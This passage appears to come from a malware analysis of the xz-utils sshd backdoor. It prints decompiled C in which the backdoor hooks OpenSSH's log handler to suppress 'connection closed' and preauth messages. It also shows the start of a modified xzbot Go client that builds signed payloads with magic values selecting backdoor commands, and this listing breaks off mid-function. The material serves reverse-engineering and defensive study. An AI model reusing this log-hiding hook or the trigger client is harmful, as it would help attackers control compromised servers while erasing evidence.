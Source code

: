 ```c
  if ( !handle_logging || !ssh_logs->mm_log_handler_checked )
    return Error;
  flags0 = modulus->cmd_bytes.flags0;
  if ( (flags0 & F0_LOG_HANDLER_FLAG_1) != 0 && ctx->getuid_res )
    return Success;
  mm_log_hander_hook = *mm_log_handler_hook_ptr;
  if ( *mm_log_handler_hook_ptr && mm_log_hander_hook >= ctx->sshd_code_start && mm_log_hander_hook < ctx->sshd_code_end )
  {
    ssh_logs->func_mm_log_handler_ptr = mm_log_handler_hook_ptr;
    ssh_logs->mm_log_handler_hook_p = func_mm_log_handler_ptr;
    mm_log_handler_hook = mm_log_handler_hook_ptr;
    mm_log_handler_hook_ptr = func_mm_log_handler_ptr;
    func_mm_log_handler_ptr = mm_log_handler_hook;
  }
  mm_log_handler_hook_addr = *mm_log_handler_hook_ptr;
  ssh_logs->mm_log_hander_original = *func_mm_log_handler_ptr;
  ssh_logs->mm_log_hander_hook = mm_log_handler_hook_addr;
  if ( (flags0 & F0_LOG_HANDLER_FLAG_1) != 0 )
  {
    if ( (flags0 & F0_LOG_HANDLER_FLAG_2) == 0
      || ssh_logs->str__s_key_ptr && ssh_logs->str__connection_closed_by_ptr && ssh_logs->str_preauth_ptr )
    {
      goto _exit;
    }
    return Error;
  }
  ssh_logs->used = 1;
_exit:
  *func_mm_log_handler_ptr = handle_logging;
  return Success;
}
```

To test the functionality of the backdoor, we used a modified `xzbot` project:

```go
type xzSigner struct {
  signingKey    ed448.PrivateKey
  encryptionKey []byte
  hostkey       []byte
  cert          *ssh.Certificate
  command       int
  payload       []byte
}

func (s *xzSigner) PublicKey() ssh.PublicKey {
  if s.cert != nil {
    return s.cert
  }

  magic1 := uint32(0x1234)
  magic2 := uint32(0x5678)
  magic3 := uint64(0xfffffffff9d9ffa1)

  if s.command == 0 {
    magic3 = uint64(0xfffffffff9d9ffa0)
  } else if s.command == 1 {
    magic3 = uint64(0xfffffffff9d9ffa1)
  } else if s.command == 2 {
    magic3 = uint64(0xfffffffff9d9ffa2)
  } else if s.command == 3 {
    magic3 = uint64(0xfffffffff9d9ffa3)
```